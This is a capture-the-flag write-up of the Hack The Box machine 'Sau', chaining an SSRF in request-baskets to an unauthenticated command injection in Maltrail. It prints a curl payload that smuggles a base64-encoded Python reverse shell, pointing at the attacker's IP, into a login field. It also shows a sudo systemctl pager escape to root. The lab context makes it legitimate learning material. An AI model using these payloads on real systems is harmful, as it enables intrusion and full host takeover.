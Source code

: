 ```yaml
---
title: Hack The Box Machine - Sau
date: 2023-07-29
layout: "simple"
tags: [hackthebox, easy]
categories: [hackthebox]
---
```


### Easy Box


![Sau](https://www.hackthebox.com/storage/avatars/1ea2980b9dc2d11cf6a3f82f10ba8702.png)


| Name | Sau|
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | July 8, 2023 |
| DIFFICULTY | <span style="color:green">Easy</span> | 1



## Port Scan
I actually wanted to test Naabu as my scanner of choice to be able to enumerate the host. I just Naabu to scan all of the ports and Naabu has a feature to then pump the ports to nmap. This was my command and output.

```sh
solidshadw@solidManjaro  ~/Downloads   
$ sudo naabu -p - -host 10.10.11.224 -nmap-cli 'nmap -sV -oX nmap-outpu  
t'
  
                 __  
 ___  ___  ___ _/ /  __ __  
/ _ \/ _ \/ _ \/ _ \/ // /  
/_//_/\_,_/\_,_/_.__/\_,_/  
  
               projectdiscovery.io  
  
[INF] Current naabu version 2.1.6 (latest)  
[INF] Running host discovery scan  
[INF] Running SYN scan with CAP_NET_RAW privileges  
[INF] Found 2 ports on host 10.10.11.224 (10.10.11.224)  
10.10.11.224:55555  
10.10.11.224:22  
[INF] Running nmap command: nmap -sV -oX nmap-output -p 22,55555 10.10.  
11.224  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 14:30 MDT  
Nmap scan report for 10.10.11.224  
Host is up (0.069s latency).  
  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux;  
protocol 2.0)  
55555/tcp open  unknown  
1 service unrecognized despite returning data. If you know the service/  
version, please submit the following fingerprint at https://nmap.org/cg  
i-bin/submit.cgi?new-service :  
SF-Port55555-TCP:V=7.94%I=7%D=7/29%Time=64C576E7%P=x86_64-pc-linux-gnu%  
r(G  
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm  
l;\  
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\  
"/w  
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2  
0Re  
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection  
:\x  
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x  
202  
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ  
est  
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla  
in;  
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque  
st"  
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20  
tex  
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\  
x20  
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n  
Con  
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r  
\n\  
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204  
00\  
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r  
\nC  
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6  
7,"  
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x  
20c  
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%  
r(K  
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t  
ext  
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x  
20R  
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\  
r\n  
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti  
ons  
SF::\x20nosniff\r\nDate:\x20Sat,\x2029\x20Jul\x202023\x2020:30:58\x20GM  
T\r  
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20  
nam  
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}  
\$\  
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty  
pe:  
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\  
x20  
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ  
est  
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20  
clo  
SF:se\r\n\r\n400\x20Bad\x20Request");  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at htt  
ps://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 89.64 seconds
```

Looks like we found 2 ports opened. Port 22 and Port 55555. 

## Port 55555
Looks like this port is running a web interface

![image](./20230729160044.png)

As I inspect the app. Looks like you can create a webhook like in which it collects and inspects the data sent over. 

We can send requests to the basket that I created `http://10.10.11.224:55555/web/gfr64fy`. 

![image1](./20230729160639.png)

On the main page, I saw a version number `Version: 1.2.1`. Which I proceeded to look any potential vulnerabilities and bingo. https://github.com/advisories/GHSA-58g2-vgpg-335q, 
Looks like it is vulnerable to SSRF. As I continue to dig into this vulnerability, seems that it is exploiting the `/api/baskets/{name}`. That means that every time we visit that site, that api path gets called and triggered. 

Exploring that app a bit more, I found that you can forward URLs. 

![image2](./20230729161754.png)

I stumbled upon this [article](https://notes.sjtu.edu.cn/s/MUUhEymt7)  that was explaining the SSRF vulnerability and they used this feature of forward URL to exploit the SSRF to find any other webservers not exposed to internet. They found more resources on the localhost that where to not available on our initial scan. So, I tried on port 80 and boom we got another webserver. 

![iamge3](./20230729162117.png)

![image4](./20230729162133.png)

It looks like it is a Maltrail from the description at the bottom. It also exposes a version `v0.53`. A quick google search, you can find that version is vulnerable to an Unauthenticated RCE(the best kind) https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.

We will need to add the `/login` at the end because it looks that is where that RCE happens. So, in the end our config will look something like this:

![image5](./20230729162522.png)

## Payload to get RevShell

I started testing the RCE by sending a curl command to my host.

![image6](./20230730211002.png)

Which it was successful! So, we know that it is working. 

![image8](./20230730211042.png)

I tried the basic sh revershell but I couldn't get it to work, not sure why. When digging into this RCE I found this [article](https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661) in which they craft a python reverse shell and echo it in base64 and decode and execute with bash. This was my final payload:

```bash
$ curl 'http://10.10.11.224:55555/gfr64fy' \         
 --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZ  
XNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJF  
QU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwIiw4MDg1KSk7b3MuZHVwMihzLmZpbGVubyg  
pLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG  
9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64 -d|bash`'
```

After executing it, it worked!

![image9](./20230729154901.png)

## Privilege Escalation Payload

Looks like we are running as the user "puma". I ran the command `sudo -l` to see if he's able to run any commands as sudo without a password.

![image10](./20230729155419.png)

A quick google search on privilege escalation when running `systemctl status` landed me on this page https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/. 

So, the final payload is divided in two parts. The first is:
```bash 
sudo systemctl status trail.service
```
And then you run:
```bash
!sh
```

And that drops you into a shell. We have made it to root. 

![image11](./20230729155249.png)